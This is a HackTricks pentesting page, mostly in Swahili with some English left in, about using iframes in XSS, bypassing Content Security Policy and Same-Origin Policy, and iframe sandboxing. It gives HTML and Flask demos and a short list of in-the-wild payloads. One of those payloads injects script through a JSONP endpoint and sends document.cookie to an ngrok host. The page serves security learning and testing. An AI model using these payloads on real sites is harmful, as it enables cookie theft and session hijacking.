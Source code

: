 # Iframes in XSS, CSP and SOP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Iframes in XSS

Kuna njia 3 za kuonyesha maudhui ya ukurasa ulio kwenye iframe:

* Kupitia `src` ikionyesha URL (URL inaweza kuwa ya asili tofauti au ya asili sawa)
* Kupitia `src` ikionyesha maudhui kwa kutumia itifaki ya `data:`
* Kupitia `srcdoc` ikionyesha maudhui

**Kufikia Parent & Child vars**
```html
<html>
<script>
var secret = "31337s3cr37t";
</script>

<iframe id="if1" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if2" src="child.html"></iframe>
<iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>

<script>
function access_children_vars(){
alert(if1.secret);
alert(if2.secret);
alert(if3.secret);
alert(if4.secret);
}
setTimeout(access_children_vars, 3000);
</script>
</html>
```

```html
<!-- content of child.html -->
<script>
var secret="child secret";
alert(parent.secret)
</script>
```
Ikiwa unapata html ya awali kupitia seva ya http (kama `python3 -m http.server`) utaona kwamba skripti zote zitatekelezwa (kama hakuna CSP inayozuia). **mzazi hataweza kufikia `secret` var ndani ya iframe yoyote** na **ni iframes if2 & if3 pekee (ambazo zinachukuliwa kuwa kwenye tovuti moja) zinaweza kufikia siri** katika dirisha la asili.\
Tazama jinsi if4 inachukuliwa kuwa na asili `null`.

### Iframes na CSP <a href="#iframes_with_csp_40" id="iframes_with_csp_40"></a>

{% hint style="info" %}
Tafadhali, angalia jinsi katika bypasses zifuatazo jibu la ukurasa wa iframe halina kichwa chochote cha CSP kinachozuia utekelezaji wa JS.
{% endhint %}

Thamani ya `self` ya `script-src` haitaruhusu utekelezaji wa msimbo wa JS ukitumia protokali ya `data:` au sifa ya `srcdoc`.\
Hata hivyo, hata thamani ya `none` ya CSP itaruhusu utekelezaji wa iframes ambazo zinaweka URL (kamili au njia tu) katika sifa ya `src`.\
Kwa hivyo inawezekana kupita CSP ya ukurasa kwa:
```html
<html>
<head>
<meta http-equiv="Content-Security-Policy" content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='">
</head>
<script>
var secret = "31337s3cr37t";
</script>
<iframe id="if1" src="child.html"></iframe>
<iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```
Note how the **previous CSP only permits the execution of the inline script**.\
However, **only `if1` and `if2` scripts are going to be executed but only `if1` will be able to access the parent secret**.

![](<../../.gitbook/assets/image (372).png>)

Therefore, it’s possible to **bypass a CSP if you can upload a JS file to the server and load it via iframe even with `script-src 'none'`**. This can **potentially be also done abusing a same-site JSONP endpoint**.

You can test this with the following scenario where a cookie is stolen even with `script-src 'none'`. Just run the application and access it with your browser:
```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
resp.headers['Content-Security-Policy'] = "script-src 'self'"
resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
return resp

@app.route("/cookie_s.html")
def cookie_s():
return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
app.run()
```
### Mipango Mingine Ilipatikana Katika Porini <a href="#other_payloads_found_on_the_wild_64" id="other_payloads_found_on_the_wild_64"></a>
```html
<!-- This one requires the data: scheme to be allowed -->
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```
### Iframe sandbox

Maudhui ndani ya iframe yanaweza kuwekwa chini ya vizuizi vya ziada kupitia matumizi ya sifa ya `sandbox`. Kwa kawaida, sifa hii haitumiki, ikimaanisha hakuna vizuizi vilivyowekwa.

Wakati inapotumika, sifa ya `sandbox` inaweka vizuizi kadhaa:

* Maudhui yanachukuliwa kana kwamba yanatoka kwenye chanzo pekee.
* Jaribio lolote la kuwasilisha fomu linazuiwa.
* Utekelezaji wa scripts unakatazwa.
* Upatikanaji wa APIs fulani unazuiliwa.
* Inazuia viungo kuingiliana na muktadha mingine ya kuvinjari.
* Matumizi ya plugins kupitia `<embed>`, `<object>`, `<applet>`, au lebo zinazofanana yanakatazwa.
* Usafiri wa muktadha wa juu wa kuvinjari wa maudhui yenyewe unazuiliwa.
* Vipengele vinavyosababishwa kiotomatiki, kama vile upigaji video au kuzingatia kiotomatiki kwa udhibiti wa fomu, vinazuiwa.

Thamani ya sifa inaweza kuachwa kuwa tupu (`sandbox=""`) ili kuweka vizuizi vyote vilivyotajwa hapo juu. Vinginevyo, inaweza kuwekwa kwenye orodha ya thamani maalum zilizotenganishwa kwa nafasi ambazo zinatoa msamaha kwa iframe kutoka kwa vizuizi fulani.
```html
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```
## Iframes katika SOP

Angalia kurasa zifuatazo:

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md" %}
[bypassing-sop-with-iframes-1.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md" %}
[bypassing-sop-with-iframes-2.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
